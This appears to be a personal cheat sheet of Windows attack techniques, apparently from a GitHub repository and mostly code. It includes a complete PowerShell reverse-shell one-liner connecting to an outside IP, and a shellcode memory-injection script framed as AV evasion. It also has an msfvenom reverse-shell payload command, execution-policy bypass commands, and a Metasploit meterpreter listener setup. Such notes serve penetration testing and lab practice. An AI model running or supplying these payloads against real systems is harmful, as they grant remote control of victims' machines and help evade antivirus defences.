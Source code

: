 # Microsoft Windows attacks

## Cmd

```
forfiles /P C:\Windows /S /M *.txt /c "cmd /c echo @PATH"
find /c /v "" file.txt
net user
net localgroup
```

## WebDAV

```
pip install wsgidav
mkdir mywebdav
.local/wsgidav --host=0.0.0.0 --auth=anonymous --port 80 --root ./mywebdav
```

## AV evasion

### Powershell reminder

#### Basics

Get help:
```
Get-Help somecommand
Get-Command -ParameterName ComputerName
Get-Command -name "*name*"
```

Find file:
```
Get-ChildItem -Path C:\ -Include *.extension -File -Recurse -ErrorAction SilentlyContinue
```

Base64: https://stackoverflow.com/questions/15414678/how-to-decode-a-base64-string
```
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("somebase64string"))
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("sometext"))
```

#### Powershell reverse shell one-liner

- source: https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
- command:
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
- base64: https://github.com/darkoperator/powershell_scripts/blob/master/README

### Powershell memory injection

Memory injection types:
- https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process
- https://blog.f-secure.com/memory-injection-like-a-boss/

#### Script

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = someshellcode;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Shell code:
```
kali$ msfvenom -p windows/shell_reverse_tcp LHOST=$AttackerIp LPORT=$AttackerPort -f powershell -v sc
```

#### Execution policy

See ByPass: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.3

##### At system level

```
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

##### At script level

```
PS> powershell -ep bypass ./somescript.ps1
```

## Shellter

Project: https://www.shellterproject.com/

Metasploit listener:
```
kali$ msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $AttackerIP;set LPORT $AttackerPort;run;"
```



